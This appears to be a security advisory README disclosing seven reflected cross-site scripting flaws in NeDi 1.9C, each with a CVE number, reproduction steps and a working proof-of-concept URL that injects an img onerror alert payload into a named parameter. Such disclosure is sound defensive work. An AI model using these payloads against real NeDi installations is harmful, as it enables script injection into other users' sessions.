 # NeDi-1.9C-Multiple-Cross-Site-Script-XSS-Vulnerabilities

Multiple Cross-Site Script Vulnerabilities found in NeDi 1.9C version.

Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Topology-Map.php" page on "xo" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/Topology-Map.php" page.
3. Add 'xo' parameter at the end of the URL.
   Example:- https://ip/Topology-Map.php?xo=<img src=x onerror=alert(document.domain)>

Reference: CVE-2020-15028


Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Assets-Management.php" page on "sn" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/Assets-Management.php" page.
3. Add 'sn' parameter at the end of the URL.
   Example:- https://ip/Assets-Management.php?st=10&sn="><img src=x onerror=alert(document.domain)>&an=&ty=&cl=&lo=&co=&ps=&pc=&pn=&pt=&ew=&es=&el=&ms=0&mp=&sl=&md=&mc=&sm=&em=&com=&lst=&val=&add=Add

Reference: CVE-2020-15029


Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Topology-Routes.php" page on "rtr" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/Topology-Routes.php" page.
3. Add 'rtr' parameter at the end of the URL.
   Example:- https://ip/Topology-Routes.php?rtr=<img src=x onerror=alert(document.domain)>

Reference: CVE-2020-15030


Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Assets-Management.php" page on "chg" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/Assets-Management.php" page.
3. Add 'chg' parameter at the end of the URL.
   Example:- https://ip/Assets-Management.php?chg=<img src=a onerror=alert(document.domain)>

Reference: CVE-2020-15031


Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Monitoring-Incidents.php" page on "id" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/Monitoring-Incidents.php" page.
3. Add 'id' parameter at the end of the URL.
   Example:- https://ip/Monitoring-Incidents.php?id="><img src=x onerror=alert(document.domain)>

Reference: CVE-2020-15032


Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "snmpget.php" page on "ip" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/snmpget.php" page.
3. Add 'ip' parameter at the end of the URL.
   Example:- https://ip/snmpget.php?ip="><img src=x onerror=alert(document.domain)>

Reference: CVE-2020-15033


Description:-
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Monitoring-Setup.php" page on "tet" parameter.

Steps To Reproduce:-
1. Login to the Application.
2. Go to "https://ip/Monitoring-Setup.php" page.
3. Add 'tet' parameter at the end of the URL.
   Example:- https://ip/Monitoring-Setup.php?tet=<img src=x onerror=alert(document.domain)>

Reference: CVE-2020-15034
